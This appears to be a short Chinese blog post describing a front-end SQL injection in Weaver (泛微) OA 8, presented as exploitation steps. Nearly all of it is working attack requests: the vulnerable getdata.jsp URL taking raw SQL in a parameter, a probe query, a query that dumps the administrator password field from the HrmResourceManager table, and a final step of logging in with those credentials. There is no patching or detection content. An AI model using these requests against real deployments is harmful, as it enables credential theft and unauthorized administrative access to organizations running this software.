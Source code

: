 ```yaml
---
layout: post
title: "泛微OA8前台SQL注入漏洞"
subtitle: 'SQL注入'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


# 漏洞利用过程

漏洞URL：

```
http://IP/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=注入
```

漏洞存在显示1234：

```
http://IP/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%201234%20as%20id
```

查询HrmResourceManager表中的sysadmind用户password字段：

```
http://IP/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

使用账户口令登录系统



